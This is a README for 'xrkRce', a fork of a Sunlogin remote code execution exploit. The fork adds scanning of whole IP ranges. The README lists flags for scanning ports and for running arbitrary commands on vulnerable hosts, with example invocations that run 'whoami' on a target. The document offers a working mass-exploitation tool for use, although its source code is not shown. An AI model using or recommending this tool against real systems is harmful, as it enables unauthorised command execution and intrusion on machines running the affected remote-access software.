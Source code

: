 ## Sunlogin RCE
fork自https://github.com/Mr-xn/sunlogin_rce
原项目只支持一个目的IP，做了修改，添加了IP段扫描功能

## Usage
```
./xrkRce  -h <ip/subnet> [-t <scan | rce>] [-c <cmd>] [-p <port/ports] [-x <threadsCount>]
    -h 单个IP或IP段,e.g. 10.0.0.1/24
    -t 执行类型，scan为扫描，rce为执行命令。默认为scan
    -c 指定要执行的命令，配合 "-t rce"使用
    -p 指定端口/端口范围。默认为40000-65536
    -x 指定协程数，默认为1000
```

## Example & Screenshot
scan
```
./xrkRce -h 192.168.0.100 -p 60000-65535
```
![scan](scan.png)
rce
```
./xrkRce -h 192.168.0.100 -p 62944 -t rce -c "whoami"
```
![rce](rce.png)